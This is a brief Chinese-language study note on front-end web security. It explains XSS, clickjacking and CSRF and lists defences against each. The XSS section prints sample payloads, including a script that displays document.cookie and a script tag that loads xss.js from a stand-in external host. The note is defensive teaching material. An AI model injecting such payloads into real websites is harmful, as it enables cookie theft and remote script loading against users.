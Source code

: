 # 前端涉及到的安全

## XSS

> 跨站脚本注入攻击，通过向web插入Script脚本代码，当用户浏览界面时候，嵌入的脚本就会执行攻击用户。目前主要分为存储型、反射型、DOM型
```
<svg onload="alert(1)">
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```
### 预防
* 输入验证过滤
* 设置httpOnly
* 进行特殊转义
* 设置http头部 XSS-Protection


## 点击劫持
> 利用透明的覆盖层或者iframe来欺骗用户在不知情的情况下点击类似无害的按钮


### 预防
* HTTP X-Frame-Options 响应头设置DENY
* 代码里边判断是否界面在iframe中

## CSRF
> 伪造请求来利用互用已验证的状态发出非预期请求，可能进行支付、密码修改、删除数据

### 预防
* 提交使用SCRF Token
* 验证Referer头部
* 避免自动登录记住密码